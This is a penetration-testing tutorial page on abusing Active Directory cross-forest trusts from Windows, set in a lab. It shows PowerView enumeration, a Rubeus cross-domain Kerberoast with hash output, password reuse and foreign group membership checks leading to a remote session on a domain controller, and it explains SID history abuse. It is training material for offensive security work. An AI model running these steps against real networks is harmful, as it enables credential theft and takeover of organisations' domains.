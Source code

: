 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

## Cross-Forest Kerberoasting

Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

### **Enumerating Accounts for Associated SPNs Using Get-DomainUser**

We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.

```powershell
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

### **Enumerating the mssqlsvc Account**

```powershell
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

### **Performing a Kerberoasting Attacking with Rubeus Using /domain Flag**

Let's perform a Kerberoasting attack across the trust using `Rubeus`. We run the tool as we did in the Kerberoasting section, but we include the `/domain:` flag and specify the target domain.

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.

***

## Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests. I occasionally ran into issues where, for example, Domain A would have a user named `adm_bob.smith` in the Domain Admins group, and Domain B had a user named `bsmith_admin`. Sometimes, the user would be using the same password in the two domains, and owning Domain A instantly gave me full admin rights to Domain B.

We may also see users or admins from Domain A as members of a group in Domain B. Only `Domain Local Groups` allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.

### **Using Get-DomainForeignGroupMember**

We can use the PowerView function [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) to enumerate groups with users that do not belong to the domain, also known as `foreign group membership`. Let's try this against the `FREIGHTLOGISTICS.LOCAL` domain with which we have an external bidirectional forest trust.

```powershell
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. We can verify this access using the `Enter-PSSession` cmdlet to connect over WinRM.

### **Accessing DC03 Using Enter-PSSession**

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

From the command output above, we can see that we successfully authenticated to the Domain Controller in the `FREIGHTLOGISTICS.LOCAL` domain using the Administrator account from the `INLANEFREIGHT.LOCAL` domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.

***

## SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest. In the below diagram, we can see an example of the `jjones` user being migrated from the `INLANEFREIGHT.LOCAL` domain to the `CORP.LOCAL` domain in a different forest. If SID filtering is not enabled when this migration is made and the user has administrative privileges (or any type of interesting rights such as ACE entries, access to shares, etc.) in the `INLANEFREIGHT.LOCAL` domain, then they will retain their administrative rights/access in `INLANEFREIGHT.LOCAL` while being a member of the new domain, `CORP.LOCAL` in the second forest.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This attack will be covered in-depth in a later module focusing more heavily on attacking AD trusts.

***

## Onwards

Next, we'll walk through some examples of attacking across a forest trust from a Linux attack host.
